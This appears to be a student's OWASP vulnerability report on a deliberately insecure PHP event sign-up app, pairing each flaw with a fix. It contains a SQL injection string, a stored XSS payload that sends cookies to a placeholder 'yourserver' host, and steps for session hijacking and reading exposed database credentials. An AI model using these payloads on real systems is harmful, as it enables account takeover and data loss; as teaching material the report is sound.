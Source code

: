 # The Report

This project is done with PHP in a LAMP environment.<br> 
See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are many problems with this code, but I will only mention the most relevant problems and the most important fixes (as I see them) for each OWASP vulnerability, without going into details. Had to draw a line somewhere, otherwise I could have ended up spending so much time with this (and the assignment didn’t say how specific we needed to be about the fixes). 

The OWASP vulnerabilities:

## A1-Injection

### How to identify 
Sign up some users to the event. Check from the Admin page. Then go to the Cancel page and enter: ```' OR '1'='1```. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
Add this after line 12 in delete.php;

```$_ticket = mysqli_real_escape_string($conn, $ticket);```

And rename the $ticket variable two lines below to $_ticket. 

## A2-Broken Authentication and Session Management
The cookie-session-id and the clear text admin credentials are sent over an unencrypted connection.<br>

### How to identify
You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” Firefox add-on):

1. Capture the cookie-session-id with OWASP ZAP. 
2. Go to the Admin login-page with Firefox (but don’t log in, - if you are not asked for the credentials then close the browser and try again). 
3. Open “Advanced Cookie Manager” and enter the cookie-session-id you saw with OWASP ZAP into the "Value" box, replacing the existing one (delete first, then paste). Save the change.
4. Re-enter the Admin page (do not only reload), and you’re in without entering credentials!

Note: You can use OWASP ZAP together with another browser, to capture the cookie-session-id, when logging in.

### How to fix
Use SSL for the website (see the link in Readme for details)! 

## A3-Cross-Site Scripting (XSS)
There is a Stored XSS vulnerability. The XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
### How to identify
Enter this code into the address field on the SignUp page;

```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```

When the admin logs in and takes a look at the sign-ups, his session-id should be written to the logs of “yourserver”.<br> 
But you can also test with code like this, in any of the fields on the SignUp page; 
```<body onload=alert('hello')>```

### How to fix
HTML codes should be escaped using the htmlspecialchars or htmlentities PHP-functions + the input validated as tightly as possible (length, allowed characters, format etc.).

## A6-Sensitive Data Exposure
Credit card numbers are sent without SSL in cleartext with POST.

### How to identify
Capture the (imaginary) credit card numbers using OWASP ZAP.

### How to fix: 
Again, use SSL (see the link in Readme for details)! 

But there are many requirements when handling credit card data, see https://en.wikipedia.org/wiki/Payment_Card_Industry_Data_Security_Standard<br>


## A7-Missing Function Level Access Control
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
### How to identify
Modify “yourserver” in this link to match your installation; http://yourserver/firstproject/admin/config.ini. Then open this link with your browser, and you should see the credentials.
### How to fix
Deny access to the config.ini file. 

There is already a .htaccess file in the admin folder that should do that, but Apache does not by default enable the use of .htaccess files. To enable, do this:

  Open /etc/apache2/apache2.conf in an editor, and find these lines;
  ```
  <Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
  </Directory>
  ```
  Change “AllowOverride None” to “AllowOverride All”. Run the command “apachectl restart”, and try to open the link again.
